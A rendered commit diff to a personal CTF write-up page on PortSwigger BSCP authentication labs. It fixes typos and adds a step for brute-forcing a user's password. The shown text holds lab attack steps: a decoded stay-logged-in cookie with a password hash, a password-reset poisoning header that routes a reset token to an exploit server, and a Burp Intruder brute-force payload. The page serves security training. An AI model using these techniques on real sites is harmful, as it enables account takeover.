

Before and after one commit to Sirius-A/ctf-writeups, an MkDocs documentation site: the page built from docs/writeups/2023/portswigger-bscp-labs/authentication-vulnerabilities.md, in a window 1280 px wide and 1400 px high, scrolled down 3106 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 4397 px from its top, so only the background shows below that.

Commit message:
feat(bscp): add webscoket lab solutions

````diff
--- a/docs/writeups/2023/portswigger-bscp-labs/authentication-vulnerabilities.md
+++ b/docs/writeups/2023/portswigger-bscp-labs/authentication-vulnerabilities.md
@@ -132,7 +132,7 @@ Look for an answer from carlos:
 ```
 GET /?secret=xHtfxrM68cuhFuEY30ETrSrX0eAp9hrR;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz HTTP/1.1
 
-# stay loggen loggen in decode:
+# stay logged-in decode:
 carlos:26323c16d5f4dabff3bb136f2460a943
 ```
 
@@ -147,7 +147,11 @@ reset links for a host we control.
 1. Use Repeater for the `POST /forgot-password` request
 1. Set username to carlos
 1. Add `X-Forwarded-Host: exploit-0a2f00cd041f7e3f823151b001690060.exploit-server.net/exploit` Header
-1. Access the server log:
+1. View the server log:
         `GET /exploit/forgot-password?temp-forgot-password-token=SOEFGdL2dqdeCXu0xrqN2ndOQwXSGwnp HTTP/1.1`
 
 ## Password brute-force via password change
+
+If the two new passwords do not match, a different message is returned
+
+Intruder payload: `username=carlos&current-password=§peter§&new-password-1=blu&new-password-2=bla`
````
Also changed, not shown: docs/writeups/2023/portswigger-bscp-labs/websockets.md (added, +22 -0 lines), docs/writeups/2023/portswigger-bscp-labs/images/ws-connection-connection-settings.png (added), docs/writeups/2023/portswigger-bscp-labs/images/ws-connection-set-header.png (added).
